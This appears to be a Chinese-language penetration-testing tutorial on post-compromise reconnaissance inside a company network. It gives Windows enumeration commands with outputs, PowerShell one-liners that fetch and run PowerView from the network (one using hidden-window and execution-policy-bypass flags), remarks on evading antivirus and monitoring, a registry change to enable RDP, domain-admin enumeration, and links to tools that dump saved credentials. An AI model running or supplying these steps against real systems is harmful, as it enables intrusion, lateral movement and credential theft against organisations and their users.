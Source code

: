 # 内网信息收集

进入到目标公司内网的某台服务器之后，面临新的问题：

* 下一步应该做什么？
* 需要收集哪些信息？
* 如何收集相关信息？
* 如何获取域管理员权限？



## Windows枚举

```powershell
whoami /all && ipconfig /all && netstat -ano && net accounts && net localgroup administraors && net share
```

命令部分结果截图

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210824152600.png)

还可以再通过Windows PowerShell工具和脚本收集更多信息。

### 检查Windows操作系统补丁

网络中绝大多数客户端主机通常都安装相类似的系统补丁。因此突破一台主机，就可以了解其他机器系统补丁的情况。

```
C:\Users\huan>powershell -command Get-HotFix

Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
DESKTOP-7U... Update           KB4515871                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4601556
DESKTOP-7U... Update           KB4513661                          2019/12/5 0:00:00
DESKTOP-7U... Security Update  KB4516115                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4517245                          2019/12/5 0:00:00
DESKTOP-7U... Security Update  KB4524569                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4530684                          2019/12/5 0:00:00
```

显示所有域用户和相关信息

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Get-NetUser > .\test.txt"
```

>  -Domain 指定域名

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/d125ae1bf78447bcef6721dbff02e44.png)

这条命令执行发现失败，Windows defer弹出木马病毒警告，那如果在内网渗透中，对方有做监控告警，岂不是凉凉了？但如果对方关闭了防毒软件，那么也许就能操作成功。再多说一句，目前使用Windows Server来做服务器的公司是越来越少了，而Linux更是没有防毒软件，**且黑且珍惜**。

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');GetUserProperties -Properties name, memberof,   description, info > .\test.txt"
```

```
C:\Users\huan>wmic useraccount get /ALL /format:csv

Node,AccountType,Caption,Description,Disabled,Domain,FullName,InstallDate,LocalAccount,Lockout,Name,PasswordChangeable,PasswordExpires,PasswordRequired,SID,SIDType,Status
DESKTOP-7UETL55,512,DESKTOP-7UETL55\Administrator,管理计算机(域)的内置帐户,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,Administrator,TRUE,FALSE,TRUE,S-1-5-21-280794800-3581089400-2904463151-500,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\DefaultAccount,系统管理的用户帐户。,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,DefaultAccount,TRUE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-503,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\Guest,供来宾访问计算机或访问域的内置帐户,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,Guest,FALSE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-501,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\huan,,FALSE,DESKTOP-7UETL55,,,TRUE,FALSE,huan,TRUE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-1001,1,OK
DESKTOP-7UETL55,512,DESKTOP-7UETL55\WDAGUtilityAccount,系统为 Windows Defender 应用程序防护方案管理和使用的用户帐户。,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,WDAGUtilityAccount,TRUE,TRUE,TRUE,S-1-5-21-280794800-3581089400-2904463151-504,1,Degraded
```

启用远程桌面，**需要管理员权限运行PowerShell程序**。

```
PS C:\Windows\system32> Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -Name 'PortNumber' -Value 3389
```

查看所有服务

```
powershell -command Get-Service

Status   Name               DisplayName
------   ----               -----------
Stopped  AarSvc_3898c       Agent Activation Runtime_3898c
Stopped  AJRouter           AllJoyn Router Service
Stopped  ALG                Application Layer Gateway Service
Stopped  AppIDSvc           Application Identity
Running  Appinfo            Application Information
Stopped  AppMgmt            Application Management
Stopped  AppReadiness       App Readiness
....................................
```

### 搜索域控

```
nltest /DCLIST:[Domain]
```

### 查看域管理员

```
net group "Domain Admins" /domain
```

### 查看本地管理员

```
net localgroup administrators /DOMAIN
```

### 查找共享目录





## 从Windows凭据管理器和浏览器获取密码

Windows凭据管理器是Windows的默认功能，用于保存系统、网站和服务器的用户名、密码和证书。当你使用Microsoft IE/EDGE对网站进行身份验证后，通常会弹出一个弹出窗口，询问“是否要保存密码？”凭证存储就是存储这些信息的地方，在凭据管理器中，有两种类型的凭据：Web和Windows，登录后可以检索此信息的用户可以查看这些信息。这对我们来说是很好的，就像任何钓鱼网站或代码执行一样，我们通常都可以用别的方法获得那个用户的权限。最好的一点是，我们甚至不需要成为本地管理员来提取这些数据。

## 如何提取

* 收集网络凭据
    * https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1

* 收集 Windows 凭证（只收集通用的而不是目标域特有的）：
    * https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1



























